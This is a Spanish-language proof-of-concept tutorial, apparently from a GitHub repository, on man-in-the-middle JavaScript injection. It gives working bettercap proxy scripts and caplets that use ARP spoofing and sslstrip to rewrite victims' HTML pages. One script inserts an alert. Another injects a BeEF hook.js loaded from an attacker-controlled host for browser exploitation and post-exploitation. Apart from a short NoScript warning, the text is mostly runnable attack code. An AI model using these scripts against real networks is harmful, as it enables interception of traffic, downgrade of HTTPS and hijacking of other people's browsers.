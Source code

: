 # POC: Inyectar Javascript malicioso

Javascript es un lenguaje de programación utilizado en programación web que se ejecuta de lado del cliente, es decir, cualquier acción realizada en Javascript tendrá un reflejo en los equipos de aquellas personas que visiten la página web.

Aprovechando esta caracterísitca de Javascript podemos inyectar un fichero Javascript (que contiene código malicioso) dentro de las peticiones HTTP para poder realizar diferentes acciones ([como minar criptomonedas](https://www.europapress.es/portaltic/internet/noticia-the-pirate-bay-utiliza-cpu-usuarios-deshacerse-anuncios-mineria-criptomoneda-20170918140205.html))

## Inyección de Javascript

Para poder inyectar Javascript dentro de las peticiones, tendremos que realizar un ataque de arp spoofing, de forma que podemos realizar tratamiento de dichos paquetes.

Posteriormente lo que tenemos que realizar es montar un proxy http/https, de forma que todas las peticiones de nuestro objetivo pasen por este y queden infectadas.

Para poder modificar las peticiones usaremos el proxy http de bettercap. En primer lugar usaremos un código Javascript de ejemplo.

```
function onLoad(){
   log("Script loaded..");
}

function onResponse(req,res){
 
 if (res.ContentType.indexOf('text/html') == 0){
 
 	var body = res.ReadBody();
 
	 res.Body = body.replace(
	 '</head>',
	 '<script type="text/javascript">alert(\"@cyberh99 wa    s here\")</script></head>'
	 );
	}
 
}        
```
[injectionJS.js]()

Este código Javascript realiza una acción muy sencilla, se encarga de reemplazar la etiqueta _head_ del código html de cualquier página agregando una sencilla ventana que dice "@cyberh99 was here". Con esto podemos comprobar como funcionala inyección de Javascript.

Dentro del código encontramos dos funciones, las cuales _tienen que estar para el funcionamiento del script_, estas tienen la siguiente relevancia:

* onLoad() --> Se ejecuta cuando el script se cargca
* onResponse(req,res) --> Se ejecuta una vez se envía el paquete al servidor real y se recibe respuesta

Una vez que tenemos el código Javascript malicioso simplemente crearemos nuestro caplet para ejecutar Bettercap:

```
set http.proxy.script injectionJS.js
set https.proxy.script injectionJS.js

set http.proxy.sslstrip true
set https.proxy.sslstrip true

http.proxy on
https.proxy on

```
[injectionTest.cap]()

!!!warning
    Existen extensiones para los diferentes navegadores como Firefox y Google Chrome que permite deshabilitar Javascript de las diferentes páginas web, habilitando exclusivamente aquellos que sean de confianza.

    Entre las diferentes opciones, la más usada y recomendad es [noScript](https://noscript.net/)
## Beef: Browser Explotation Framework

El código Javascript que hemos inyectado es muy simple, para una mera demostración, sin embargo, podemos hacer cosas mucho más complejas, un ejemplo de ello es Beef.

Beef (Browser Explotation Framework) es una herramienta que nos ofrece la opción de infectar diferentes navegadores con código javascript, de forma que podamos realizar acciones sobre la máquina infectada. Este framework puede estar conectado con Metasploit o ser utilizado para ingenieria social.

Para poder inyectar el códgio javascript de beef utilizaremos el siguiente código:

```javascript
function onLoad() {
    log( "BeefInject loaded." );
    log("targets: " + env['arp.spoof.targets']);
}

function onResponse(req, res) {
    if( res.ContentType.indexOf('text/html') == 0 ){
        var body = res.ReadBody();
        if( body.indexOf('</head>') != -1 ) {
            res.Body = body.replace( 
                '</head>', 
                '<script type="text/javascript" src="http://10.0.2.15:3000/hook.js"></script></head>' 
            ); 
        }
    }
}
```
[beefJavascript.js]()

```
set http.proxy.script beefJavascript.js
set https.proxy.script beefJavascript.js

set http.proxy.sslstrip true
set https.proxy.sslstrip true

http.proxy on
https.proxy on
```
[beefInjection.cap]()

Posteriormente disponemos de todo el potencial que nos ofrece beef para realizar acciones de post explotación.

